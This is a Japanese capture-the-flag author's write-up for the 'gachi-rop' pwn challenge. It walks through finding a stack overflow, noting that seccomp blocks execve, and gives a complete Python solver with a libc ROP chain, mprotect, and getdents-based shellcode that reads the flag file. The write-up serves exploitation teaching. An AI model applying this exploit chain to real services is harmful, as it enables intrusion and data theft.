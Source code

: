 # gachi-rop

## 問題文
<!-- TODO:問題文、配布ファイル追加 -->

## 難易度
**medium**  

## 作問にあたって
One Gadget派閥の台頭により、世界からROP筋が失われるのを防止しに来ました。  
私はPwnの師匠に「One GadgetはROPマスターしてから使うもの」、「Shell立ち上げて嬉しいことなんて実世界のExploitではほとんど無いよ」という厳しいお言葉を頂いています。  
seccompを知ってもらうのも問題の意図です(ちょっと意地悪しました)。  
人によってはgachi-shellcodeかもしれません。  

## 解法
動いているgachi-rop、libc.so.6と接続先が渡される。  
接続すると、`system`のアドレスが渡され、名前を聞かれて応答があり終了する。  
<!-- TODO:ドメイン変更 -->
```bash
$ nc localhost 4567
system@0x7fea185b9d70
Name: Satoki
Hello, gachi-rop-Satoki!!
```
配布されたgachi-ropをチェックする。  
```bash
$ checksec --file=gachi-rop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   46 Symbols        No    0               2               gachi-rop
$ ./gachi-rop
system@0x7fc8d75c6d70
Name: Satoki
Hello, gachi-rop-Satoki!!
$ ./gachi-rop
system@0x7f5ef647bd70
Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, gachi-rop-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!!
Segmentation fault
```
大量の入力で`Segmentation fault`となり、BOFが怪しい。  
```bash
$ gdb ./gachi-rop
~~~
pwndbg> start
~~~
pwndbg> c
Continuing.
system@0x7ffff7dccd70
Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, gachi-rop-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!!
~~~
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────
 ► 0x4012a1 <main+134>    ret                                <0x4141414141414141>

~~~
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc98 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
... ↓        7 skipped
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► 0         0x4012a1 main+134
   1 0x4141414141414141
   2 0x4141414141414141
   3 0x4141414141414141
   4 0x4141414141414141
   5 0x4141414141414141
   6 0x4141414141414141
   7 0x4141414141414141
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
RIPが取れている。  
あとは`system`のアドレスが表示されているため、libc内の`/bin/sh`などを使い`system`を呼び出せばよいと考える。  
しかし上手くいかない。  
それもそのはず、[seccomp-tools](https://github.com/david942j/seccomp-tools)で見てやると以下のように禁止項目がある。  
```bash
$ seccomp-tools dump ./gachi-rop
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x03 0x00 0x40000000  if (A >= 0x40000000) goto 0007
 0004: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0007
 0005: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00050000  return ERRNO(0)
```
システムコール`execve`、`execveat`が禁止されており、簡単にシェルは取れないようになっている。  
もちろん`system`も内部でこれらを用いている。  
幸い、`read`や`open`が禁止されていないので、ファイルは読み取ることができる。  
フラグの場所を探すと、Dockerfileに`RUN  mv /flag.txt ctf4b/flag-$(md5sum /flag.txt | awk '{print $1}').txt`とある。  
つまり、ファイル名自体も取得する必要がある。  
`getdents`を使えば読み取ることができるので、以下のようにうまくROPして`mprotect`で実行可能領域を作り、シェルコードを挿入すればよい。  
<!-- TODO:ドメイン変更、パス変更、solver.py同梱 -->
```python
from ptrlib import *

elf = ELF("../build/gachi-rop")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

sock = Socket("localhost", 4567)
# sock = Process("../build/gachi-rop")
# sock.debug = True

sock.recvuntil("system@")
libc.base = int(sock.recvline(), 16) - libc.symbol("system")

sock.recvuntil("Name: ")
payload = b"A" * 0x18
# mprotect(0x404000, 0x1000, 0x7)
payload += p64(next(libc.gadget("pop rdi; ret;")))
payload += p64(elf.section(".bss") & ~0xFFF)
payload += p64(next(libc.gadget("pop rsi; ret;")))
payload += p64(0x1000)
payload += p64(next(libc.gadget("pop rdx; pop r12; ret;")))
payload += p64(0x7)
payload += p64(0x0)  # X
payload += p64(libc.symbol("mprotect"))
# read(0x0, bss + 0x100, 0x200)
payload += p64(next(libc.gadget("pop rdi; ret;")))
payload += p64(0x0)
payload += p64(next(libc.gadget("pop rsi; ret;")))
payload += p64(elf.section(".bss") + 0x100)
payload += p64(next(libc.gadget("pop rdx; pop r12; ret;")))
payload += p64(0x200)
payload += p64(0x0)  # X
payload += p64(libc.symbol("read"))
# jmp bss + 0x100
payload += p64(next(libc.gadget("pop rax; ret;")))
payload += p64(elf.section(".bss") + 0x100)
payload += p64(next(libc.gadget("jmp rax;")))
sock.sendline(payload)

shellcode = nasm(
    f"""
    xor esi, esi
    lea rdi, [rel ctf4b]
    mov eax, {syscall.x64.open}
    syscall
    mov r13, rax
    cld

loop:
    mov edx, 0x40
    lea rsi, [rel buf]
    mov rdi, r13
    mov eax, {syscall.x64.getdents}
    syscall
    test eax, eax
    jz end

    mov dword [rel buf + 18 - 8], './ct'
    mov dword [rel buf + 18 - 4], 'f4b/'

    xor esi, esi
    lea rdi, [rel buf + 18 - 8]
    mov eax, {syscall.x64.open}
    syscall

    mov edx, 0x100
    lea rsi, [rel buf]
    mov edi, eax
    mov eax, {syscall.x64.read}
    syscall
    test rax, rax
    jle loop

    mov edx, eax
    mov edi, 1
    mov eax, {syscall.x64.write}
    syscall
    
    jmp loop

end:
    xor edi, edi
    mov eax, {syscall.x64.exit_group}
    syscall

ctf4b: db "./ctf4b", 0
buf:
""",
    bits=64,
)
sock.sendline(shellcode)

flag = sock.recvregex("ctf4b{.*?}")
print(flag.decode())
# sock.sh()
```
実行する。  
<!-- TODO:実際の結果に変更 -->
```
$ python solver.py
[+] __init__: Successfully connected to localhost:4567
[+] base: New base address: 0x7fbdd5dd7000
ctf4b{64ch1_r0p_r3qu1r35_mu5cl3_3h3h3}
[+] _close_impl: Connection to localhost:4567 closed
```
flagが得られた。  

## ctf4b{64ch1_r0p_r3qu1r35_mu5cl3_3h3h3}